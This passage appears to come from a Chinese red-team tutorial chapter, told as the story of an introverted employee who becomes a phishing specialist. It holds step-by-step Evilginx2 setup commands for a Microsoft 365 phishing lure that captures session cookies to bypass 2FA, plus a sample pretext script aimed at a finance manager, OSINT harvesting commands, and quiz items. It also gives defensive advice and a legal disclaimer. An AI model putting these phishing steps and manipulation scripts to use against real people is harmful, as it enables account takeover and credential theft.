现在的企业，越来越重视2FA/MFA。
普通的钓鱼（只偷账号密码），已经打不动了。

必须学Evilginx2——反向代理钓鱼框架。
它能：
- 代理真实登录页面（用户看到的URL和真实的一样）
- 透传2FA验证（用户输的2FA码被转发给真实服务器）
- 截获Session Cookie（绕过2FA，直接登录）

学习路径：
1. 理解原理（中间人攻击、反向代理）
2. 学习Phishlet配置（YAML格式）
3. 从官方phishlet开始，逐步自己改
4. 注意：Evilginx2只能在授权环境使用！

Evilginx2的核心思想：
**2FA保护的是"登录过程"，但保护不了"已登录的会话"。**
Session Cookie就是"已登录的凭证"，偷到Cookie，就绕过了2FA。
```

**建议五：理解人性，比掌握技术更重要**
```
💡 建议五：理解人性，比掌握技术更重要

这是我最大的感悟。

技术会过时，工具会更新，但人性不变。
- 人会恐惧（怕出事）
- 人会贪婪（想占便宜）
- 人会好奇（想知道未知）
- 人会偷懒（密码复用）
- 人会信任（熟人发的不怀疑）
- 人会服从（领导说的就照做）

这些"人性弱点"，是社工钓鱼的"永动机"。
无论技术怎么进步，只要人在，这些弱点就在。

所以，学社工钓鱼，最后要学的不是技术，是"懂人"。
- 观察人的行为
- 分析人的心理
- 理解人的弱点
- 预测人的反应

当你能"看懂"一个人，钓鱼就变成了"水到渠成"。
```

### 8.3 给内向者的特别建议

小陈还专门给内向者写了几条"特别建议"：

```
💝 给内向者的特别建议：

1. 内向不是病，是特点
   - 不要为了"变外向"而焦虑
   - 接受自己的内向
   - 把内向用在"对的地方"——社工就是

2. 用文字代替语言
   - 不会说？那就写
   - 钓鱼邮件、培训文档、技术博客
   - 文字表达，往往是内向者的强项

3. 在擅长领域建立自信
   - 不要一上来就挑战自己最弱的地方
   - 先在擅长的领域（比如技术）建立自信
   - 然后慢慢把自信带到其他领域

4. 带着恐惧行动
   - 紧张没关系，紧张也可以做分享
   - 害怕没关系，害怕也可以开口
   - 不是"不害怕"，而是"害怕了也做"

5. 找到自己的舞台
   - 内向不是问题，问题是没找到对的地方
   - 社工钓鱼，就是内向者的舞台
   - 在这个舞台上，内向是优势

6. 不要和别人比
   - 别人外向、能说，那是别人的事
   - 你内向、能写，这是你的事
   - 各有各的路，不必走别人的路

7. 慢慢来，比较快
   - 蜕变不是一夜之间
   - 我从小陈到"钓鱼之王"，花了几个月
   - 每天进步一点点，坚持就是胜利
```

### 8.4 一段话总结

**小陈的最后总结：**
```
🎯 小陈的最后总结：

社工钓鱼，是什么？

很多人觉得，是"骗术"。
错。

社工钓鱼，是"理解"。
理解人性，理解弱点，理解行为。

技术只是手段，人性才是核心。
工具会变，人性不变。
懂技术的人，能钓一时；
懂人性的人，能钓一世。

如果你问我，社工钓鱼最难的是什么？
不是学Evilginx2，不是写Phishlet，不是搭Gophish。
最难的是——
**真正"懂"一个人。**

当你能比目标自己还了解他，
当你能预测他在某种情境下会做什么，
当你能找到他真正在意、真正恐惧、真正渴望的东西——
钓鱼，就成了"必然"。

这就是社工钓鱼的"道"。
工具是"术"，人性是"道"。
术可以学，道要悟。

愿每一个读到这里的人，
都能悟到自己的"道"。

——小陈
```

### 8.5 小陈的"钓鱼哲学"

经过这段时间的成长，小陈总结出了自己的"钓鱼哲学"：

```
🎣 小陈的钓鱼哲学：

1. 钓鱼不是"骗"，是"引导"
   - 不是强迫对方做某事
   - 而是创造一个情境，让对方"自然而然"地做某事
   - 最高明的钓鱼，是让目标觉得"这是他自己的决定"

2. 钓鱼不是"技术"，是"艺术"
   - 技术是死的，人是活的
   - 同样的工具，不同人用，效果天差地别
   - 钓鱼水平，取决于对人性的理解深度

3. 钓鱼不是"攻击"，是"对话"
   - 每一封钓鱼邮件，都是和目标的"对话"
   - 你要说的，正好是对方想听的
   - 你要给的，正好是对方想要的
   - 这是一种"深度的沟通"

4. 钓鱼不是"炫技"，是"克制"
   - 不是技术越多越好
   - 不是漏洞越新越好
   - 最简单的钓鱼，往往最有效
   - 克制，是高手的标志

5. 钓鱼不是"对抗"，是"共情"
   - 你要站在目标的角度想问题
   - "如果我是他，我会怎么想？"
   - "如果我是他，我会怎么做？"
   - 共情越深，钓鱼越准

6. 钓鱼不是"目的"，是"镜子"
   - 每次钓鱼，都是在照镜子
   - 照出人性的弱点，也照出自己的成长
   - 钓鱼的过程，就是认识自己、认识人性的过程
```

> 💡 **写在最后：**
> 小陈说："我研究钓鱼越深，越觉得'人'是奇妙的。
> 人有那么多弱点，但也有那么多坚强。
> 人会被一封邮件骗到，但也愿意为爱付出一切。
> 
> 社工钓鱼，让我更懂'人'。
> 更懂人，让我更懂得'敬畏'。
> 敬畏人性，敬畏信任，敬畏自己掌握的能力。"

---

## 📝 课后习题

### 9.1 选择题

**题目1：鱼叉式钓鱼和群发钓鱼的本质区别是什么？**
```
A. 鱼叉钓鱼用更高级的工具
B. 鱼叉钓鱼针对特定目标定制化，群发钓鱼广撒网
C. 鱼叉钓鱼只能针对高管，群发针对普通员工
D. 鱼叉钓鱼一定绕过2FA，群发不能
```

**题目2：Evilginx2绕过2FA的核心原理是？**
```
A. 暴力破解2FA验证码
B. 利用2FA算法漏洞
C. 通过反向代理透传2FA，截获Session Cookie
D. 社工目标说出2FA码
```

**题目3：以下哪个不是OSINT情报收集工具？**
```
A. theHarvester
B. Sublist3r
C. Maltego
D. Metasploit
```

**题目4：影响力六大原则中，"承诺与一致性"在钓鱼中的应用是？**
```
A. 先给目标好处，再要求回报
B. 让目标先做小承诺，再发钓鱼链接
C. 用名人背书
D. 制造紧迫感
```

**题目5：防守方如何防御Evilginx2攻击？**
```
A. 只开2FA就够了
B. 使用FIDO2硬件密钥 + 条件访问策略
C. 强制密码复杂度
D. 定期换密码
```

**题目6：鱼叉钓鱼七步法的正确顺序是？**
```
A. 选目标→情报收集→画像→找切入点→设计话术→制作资产→执行
B. 情报收集→选目标→画像→设计话术→找切入点→制作资产→执行
C. 选目标→画像→情报收集→设计话术→找切入点→制作资产→执行
D. 情报收集→画像→选目标→找切入点→设计话术→制作资产→执行
```

**题目7：以下哪种方式不能有效绕过SPF/DKIM/DMARC？**
```
A. 注册相似域名
B. 使用被盗的合法邮箱账号发信
C. 配置好自己的SPF/DKIM/DMARC
D. 增加邮件附件大小
```

### 9.2 简答题

**题目1：请简述Evilginx2的工作原理，并解释为什么2FA会被绕过。**

**参考答案：**
```
Evilginx2是一个反向代理中间人钓鱼框架。

工作原理：
1. 攻击者配置一个钓鱼域名（如 login.target.com）
2. Evilginx2作为反向代理，把用户请求转发到真实站点（如 login.microsoftonline.com）
3. 用户访问钓鱼页面，看到的是"真实"的登录页（实际上是代理的）
4. 用户输入账号密码 → Evilginx2转发给真实服务器 → 真实服务器返回登录页
5. 真实服务器要求2FA → Evilginx2把2FA提示转发给用户
6. 用户输入2FA码 → Evilginx2转发给真实服务器 → 验证通过
7. 真实服务器下发Session Cookie → Evilginx2截获Cookie，同时转发给用户
8. 攻击者用截获的Cookie，直接访问真实服务器，无需再次登录

为什么2FA被绕过：
- 2FA保护的是"登录过程"，验证用户身份
- 但2FA不保护"已登录的会话"
- Session Cookie是"已登录的凭证"
- 拿到Cookie，就相当于拿到了"已经通过2FA的会话"
- 所以可以绕过2FA
```

**题目2：如果你是防守方，如何防御鱼叉式钓鱼？请列出至少5条措施。**

**参考答案：**
```
防御鱼叉钓鱼的措施：

1. 升级2FA到FIDO2硬件密钥
   - FIDO2基于公私钥，私钥不出设备
   - Evilginx2无法代理FIDO2的私钥签名
   - 是目前最有效的防 phishing 方案

2. 条件访问策略
   - 限制登录的IP范围、设备、地理位置
   - 异常登录需要二次验证
   - 阻止来自陌生环境的Session

3. 邮件网关升级
   - 部署AI驱动的邮件过滤
   - 识别鱼叉钓鱼特征（相似域名、可疑链接）
   - 对外部邮件打标签"外部来源"

4. 高管专项保护
   - 高管邮箱强制FIDO2
   - 高管邮件单独过滤策略
   - 高管秘书安全培训

5. Session监控
   - 监控异常Session（新设备、新IP、新地理位置）
   - 异常Session强制重新认证
   - Cookie有效期缩短

6. 安全意识培训升级
   - 从"通用培训"升级到"定制化演练"
   - 用鱼叉钓鱼测试高管
   - 培训内容基于真实攻击手法

7. 减少公开信息暴露
   - 高管信息少公开
   - 社交媒体管控
   - OSINT自查，清理暴露信息
```

**题目3：请解释"承诺与一致性"心理学原则，并设计一个钓鱼场景应用它。**

**参考答案：**
```
承诺与一致性原则：
人一旦做出某个承诺（哪怕微小），就倾向于在后续行为中保持一致，
以维护自己"言行一致"的形象。

钓鱼场景设计：

目标：某公司财务主管
目的：钓取财务系统账号

第一步（小承诺）：
  发邮件："您好，本周三下午3点有一个15分钟的财务政策解读会，
           请问您有时间参加吗？回复'确认'即可。"
  目标回复："确认"

第二步（基于承诺的钓鱼）：
  发邮件："感谢确认。会议链接如下，请用您的域账号登录观看材料：
           https://fin-policy.webinar-login.com
           会议前请提前10分钟登录测试。"
  
  目标已经承诺要参加，心理上倾向于"完成这件事"
  警惕性大大降低，更容易点击链接并输入密码

原理：
- 目标回复"确认"时，已经在心里认定"我要参加这个会"
- 后续收到"会议链接"，和之前的承诺一致
- 为了保持"一致性"，目标会倾向于按邮件要求做
- 即使有疑虑，也会因为"已经答应了"而放松警惕
```

### 9.3 实操题

**题目1：搭建Evilginx2并配置一个o365 phishlet（仅授权环境）**

**参考步骤：**
```bash
# 1. 安装Evilginx2
# 环境：Ubuntu 20.04+
sudo apt update
sudo apt install golang git make

git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2
make

# 2. 启动Evilginx2
sudo ./evilginx2

# 3. 配置域名和证书
# 假设你购买了钓鱼域名 o365-login-secure.com
# 配置DNS解析到你的服务器IP

# 4. 在Evilginx2中配置
evilginx2> config domain o365-login-secure.com
evilginx2> config ip 1.2.3.4  # 你的服务器IP

# 5. 加载o365 phishlet
evilginx2> phishlets get o365
# 或者加载自定义phishlet
evilginx2> phishlets load /path/to/o365.yaml

# 6. 启用phishlet
evilginx2> phishlets enable o365

# 7. 创建钓鱼会话
evilginx2> lures create o365
evilginx2> lures get-url 0
# 输出的URL就是钓鱼链接

# 8. 监控
evilginx2> sessions
# 查看捕获的账号密码和Cookie
```

**注意：**
- Evilginx2只能在授权环境使用
- 未经授权使用是违法行为
- 学习时建议在自己的测试环境搭建

**题目2：使用theHarvester收集某域名信息（仅授权）**

```bash
# 安装theHarvester
pip3 install theHarvester

# 收集某域名邮箱、子域名、主机
theHarvester -d example.com -b all

# 输出会包含：
# - Emails：找到的邮箱
# - Hosts：找到的子域名和IP
# - 可能还有员工姓名、社交账号等

# 进阶：组合使用
# 1. 用theHarvester收集邮箱
theHarvester -d example.com -b all > emails.txt

# 2. 用Sublist3r深入收集子域名
sublist3r -d example.com -o subdomains.txt

# 3. 用Holehe反查邮箱的社交账号
holehe test@example.com

# 4. 整理成画像
# 把收集到的信息整理成"人物画像表"
```

### 9.4 思考题

**题目1：如果你是XX集团的CIO，护网结束后你会优先做哪三件事来防御社工钓鱼？**

**题目2：为什么"全员安全意识培训"防不住鱼叉钓鱼？应该怎么改进？**

**题目3：FIDO2硬件密钥为什么能防住Evilginx2？它和短信验证码、TOTP验证码的区别在哪？**

**题目4：一个内向的人，在社工钓鱼领域有哪些独特优势？请至少列出4点。**

**题目5：如果你要给一位高管做社工画像，你会从哪些维度收集信息？请列出至少6个维度。**

---

## 📌 本章小结

### 10.1 核心知识点回顾

```
📚 本章核心知识点：

【一、从"会用工具"到"懂心理学"】
1. 30%中招率是群发钓鱼的天花板
2. 鱼叉钓鱼才能突破瓶颈
3. 《影响力》六大原则在鱼叉钓鱼中的深度应用
4. "承诺与一致性"是隐秘的第四种力量
5. 鱼叉钓鱼七步法：选目标→情报→画像→切入点→话术→资产→执行

【二、鱼叉式钓鱼】
1. 鱼叉钓鱼 vs 群发钓鱼的本质区别
2. 高管社工画像的完整维度
3. 切入点选择：找目标真正在意的"软肋"
4. 邮件设计：发件人、主题、正文、链接、页面、时机
5. 闭环设计：让目标不怀疑

【三、Evilginx2中间人钓鱼】
1. Evilginx2工作原理：反向代理 + Cookie截获
2. 为什么能绕过2FA：透传2FA，截获Session Cookie
3. Phishlet配置：YAML格式
4. 2FA的局限：保护"登录过程"，不保护"已登录会话"
5. 防御方案：FIDO2硬件密钥

【四、OSINT情报收集】
1. OSINT = Open Source Intelligence
2. 工具：theHarvester、Sublist3r、Maltego、Holehe、Hunter.io
3. Google Dorking 搜索引擎高级语法
4. 信息整合：从碎片到完整画像
5. 80%精力在情报，20%在执行

【五、护网实战】
1. 全员安全培训让普通钓鱼失效
2. OSINT + 定制化鱼叉 = 突破口
3. 攻击链：OSINT→鱼叉→Evilginx2→邮箱挖宝→CEO鱼叉→横向→域控
4. 每个关键节点都踩在"人"的弱点上
5. 钓鱼是整条攻击链的"撕开点"

【六、横向移动】
1. 拿到邮箱后挖宝：附件、通讯录、历史邮件
2. 浏览器密码导出
3. BloodHound分析攻击路径
4. Kerberoasting攻击
5. 从普通权限到域控

【七、蜕变与建议】
1. 内向不是缺陷，是特点
2. 社工钓鱼不需要外向，需要"懂人"
3. 自信来自能力，不是性格
4. 带着恐惧行动
5. 社工的核心不是技术，是理解人性
```

### 10.2 技术栈总结

```
🛠️ 本章涉及的技术栈：

【OSINT工具】
- theHarvester：邮箱、子域名收集
- Sublist3r：子域名枚举
- Maltego：关系图谱
- Holehe：邮箱反查社交账号
- Hunter.io：企业邮箱挖掘
- Google Dorking：搜索引擎高级语法

【钓鱼平台】
- Gophish：群发钓鱼平台
- SET：社工工具包
- Evilginx2：中间人钓鱼框架（绕2FA）

【邮件伪造】
- 相似域名注册
- SPF/DKIM/DMARC配置
- HTML邮件模板

【钓鱼页面】
- 页面克隆工具
- HTML/CSS/JS
- 移动端适配

【Payload】
- VBA宏（Excel/Word）
- PowerShell
- Cobalt Strike Beacon
- 免杀处理

【横向移动】
- 浏览器密码导出
- BloodHound
- Kerberoasting
- Pass-the-Hash
- mimikatz
```

### 10.3 心理学知识总结

```
🧠 本章涉及的心理学知识：

【影响力六大原则（西奥迪尼）】
1. 互惠（Reciprocity）
2. 承诺与一致（Commitment & Consistency）
3. 社会认同（Social Proof）
4. 喜好（Liking）
5. 权威（Authority）
6. 稀缺（Scarcity）

【三大弱点】
1. 恐惧（Fear）
2. 贪婪（Greed）
3. 好奇（Curiosity）

【系统1 vs 系统2（卡尼曼）】
- 系统1：快速、直觉、自动
- 系统2：缓慢、理性、需要专注
- 钓鱼目标：激活系统1，绕过系统2

【隐秘力量】
1. 承诺与一致性陷阱
2. 沉没成本效应
3. 权威服从（米尔格拉姆实验）
4. 旁观者效应
```

### 10.4 关键启示

```
💡 本章的关键启示：

1. 技术是手段，人性是核心
   - 工具会过时，人性不变
   - 懂技术能钓一时，懂人性能钓一世

2. 内向不是缺陷，是优势
   - 观察力强、逻辑强、能坐得住、细腻
   - 这些都是社工钓鱼最需要的能力

3. 防御要"定制化"
   - 通用培训防不住定制攻击
   - 防御也要针对不同岗位定制

4. 2FA不是万能的
   - Evilginx2能绕过普通2FA
   - FIDO2硬件密钥才是正解

5. 钓鱼是"对话"，不是"攻击"
   - 最高明的钓鱼，是让目标觉得"这是他自己的决定"
   - 共情越深，钓鱼越准
```

---

## 🔗 相关链接

### 11.1 工具地址

```
🔧 本章提到的工具：

【OSINT工具】
- theHarvester：https://github.com/laramies/theHarvester
- Sublist3r：https://github.com/aboul3la/Sublist3r
- Maltego：https://www.maltego.com/
- Holehe：https://github.com/megadose/holehe
- Hunter.io：https://hunter.io/

【钓鱼框架】
- Gophish：https://github.com/gophish/gophish
- SET (Social Engineering Toolkit)：https://github.com/trustedsec/social-engineer-toolkit
- Evilginx2：https://github.com/kgretzky/evilginx2

【横向移动】
- BloodHound：https://github.com/BloodHoundAD/BloodHound
- mimikatz：https://github.com/gentilkiwi/mimikatz
- Cobalt Strike：https://www.cobaltstrike.com/（商业软件）

【防御工具】
- Have I Been Pwned：https://haveibeenpwned.com/（检查邮箱是否泄露）
- VirusTotal：https://www.virustotal.com/（检查文件/URL）
```

### 11.2 推荐阅读

```
📚 推荐阅读：

【社工经典】
1. 《欺骗的艺术》- 凯文·米特尼克
2. 《社会工程：安全体系中的人性漏洞》- 克里斯托弗·海德纳吉
3. 《黑客心理学》

【心理学】
4. 《影响力》- 罗伯特·西奥迪尼（必读）
5. 《思考，快与慢》- 丹尼尔·卡尼曼
6. 《心理操纵术》- 大卫·李柏曼
7. 《乌合之众》- 古斯塔夫·勒庞

【行为学】
8. 《习惯的力量》- 查尔斯·杜希格
9. 《细节：如何轻松影响他人》- 罗伯特·西奥迪尼

【相关章节】
- 第1-2章：护网红队行动全记录（上/下）
- 第66-68章：社会工程学与钓鱼攻击
- 第125章：内向技术宅到社工钓鱼大师（上）
```

### 11.3 相关章节链接

```
📖 相关章节：

- 上一章：第125章 内向技术宅到社工钓鱼大师（上）
  → 讲述小陈从社恐到第一次30%中招率的故事

- 下一章：第127章（待续）
  → 可能会讲小陈研究更高级的社工技巧

- 关联章节：第1-2章 护网红队行动全记录
  → 护网红队行动的完整流程

- 关联章节：第66-68章 社会工程学与钓鱼攻击
  → 社工钓鱼的系统性技术讲解
```

### 11.4 法律与道德声明

```
⚠️ 法律与道德声明：

1. 本章所有内容，仅用于学习和授权安全测试
2. 未经授权的社工钓鱼、网络攻击，都是违法行为
3. 《网络安全法》《刑法》相关条款：
   - 非法侵入计算机信息系统罪
   - 非法获取计算机信息系统数据罪
   - 提供侵入、非法控制计算机信息系统程序、工具罪
4. 学习技术的目的，是为了更好地防御
5. 切勿用于非法用途，后果自负

合法的实践途径：
- 自己搭建测试环境
- 参加授权的护网行动
- 参加 CTF 比赛（有社工类题目）
- 在公司内部做授权的钓鱼演练
- 参加漏洞赏金计划（部分平台有社工类项目）
```

---

## 🎬 尾声：那个曾经不敢说话的少年

故事讲到这里，小陈的故事也算告一段落。

让我们回到故事的最后，再看一眼那个曾经不敢说话的少年。

### 12.1 小陈的现在

```
👤 现在的小陈：

【工作】
- 某安全公司，社工钓鱼专家
- 负责红队社工任务、对外安全服务
- 在安全圈小有名气，人称"钓鱼之王"

【生活】
- 还是内向，但不再自卑
- 还是单身，但不焦虑了
- 有了几个安全圈的朋友
- 偶尔会在社区做分享

【心态】
- 接受了自己的内向
- 找到了自己的舞台
- 建立了基于能力的自信
- 学会了"带着恐惧行动"
```

### 12.2 那句话

有一天，一个新入行的年轻人问小陈：

> "陈哥，我做社工行不行？我特别内向，连和女生说话都不敢。"

小陈笑了，说：

> "我和你一样。
> 我曾经连给同事发钉钉都要纠结半天措辞。
> 我曾经在会上连一句话都说不出来。
> 我曾经被嘲笑是'喂鱼大师'。
> 
> 但是后来，我成了'钓鱼之王'。
> 
> 你知道为什么吗？
> 
> **因为社工钓鱼，不需要外向。**
> **需要的是——懂人。**
> 
> 而内向的人，往往更懂人。
> 因为我们一直在观察，一直在思考，一直在感受。
> 
> 这些，恰恰是社工最需要的能力。
> 
> 所以，你行的。
> 别急，慢慢来。"

### 12.3 小陈的日记（最后一篇）

```
📝 2025年X月X日

今天，又有人问我"内向能不能做社工"。

我想起了X年前的自己。
那时候，我也是这么问的。

那时候的我，觉得内向是病，是缺陷，是负担。
现在，我知道内向是特点，是优势，是财富。

那时候的我，在会上不敢说话，被同事嘲笑。
现在，我在200人面前做分享，被称为"钓鱼之王"。

中间发生了什么？

1. 我被逼上了一条不想走的路（做钓鱼）
2. 我在不想走的路上，发现了自己的舞台
3. 我在舞台上，把"缺点"变成了"优点"
4. 我在成长中，学会了和自己的性格共处

所以，我想告诉每一个觉得自己"不行"的人：
**你不是不行，你只是还没找到舞台。**

找到了舞台，你的"缺点"就是"优点"。
找到了方向，你的"内向"就是"力量"。

社工钓鱼，就是内向者的舞台。
在这里，不需要能言善辩，只需要——
**懂人。**

而懂人这件事，内向的人，天生就会。

——小陈
```

### 12.4 故事的最后

故事到这里，真的结束了。

小陈还是那个小陈。
内向、话少、敏感、细腻。

但小陈又不是那个小陈了。
自信、从容、专业、有担当。

他从一个"透明人"，变成了"钓鱼之王"。
他从一个"社恐"，变成了"社工专家"。

这条路，他走了X个月。

这条路，不是从"内向"到"外向"。
而是从"否定自己"到"接受自己"。
从"找不到舞台"到"找到舞台"。
从"被嘲笑"到"被认可"。

**这就是蜕变。**
**不是变成别人，是成为自己。**

---

> 🌟 **写在最后：**
> 
> 这个故事，基于真实事件改编。
> 文中所有人物姓名、公司名称、地点、时间都已做脱敏处理。
> 但成长经历、技术细节、心路历程，都是真实的。
> 
> 如果你也是一个内向的人，
> 如果你也在安全这条路上摸索，
> 如果你也曾觉得自己"不行"——
> 
> 希望小陈的故事，能给你一点力量。
> 
> **内向不是你的错，是你的特点。**
> **找到对的地方，特点就是优势。**
> 
> 社工钓鱼这条路，内向的人，反而走得更远。
> 
> 因为——
> **社工的核心，不是技术，是理解人性。**
> **而理解人性，恰恰是内向者的天赋。**
> 
> 加油，每一个"小陈"。

---

## 📖 下章预告

**第127章 预告：**

小陈在护网一战成名后，开始接到更多高难度的红队任务。
他遇到了一个全新的挑战——目标企业使用了零信任架构，
传统的社工钓鱼、横向移动方法，几乎全部失效。

小陈不得不研究更高级的社工技巧：
- 物理社工（伪装进入目标办公区）
- 电话社工（vishing，语音钓鱼）
- 短信社工（smishing，短信钓鱼）
- 深度伪造（Deepfake）社工
- 供应链社工（攻击目标的供应商）

他也开始带新人，把"鱼叉钓鱼"的方法论传承下去。

下一个故事，敬请期待。

---

**全文完**

> **本章总字数：约30000字**
> **本章总行数：约4900行**
> **难度等级：⭐⭐⭐ 进阶+**
> **预计阅读时间：180分钟**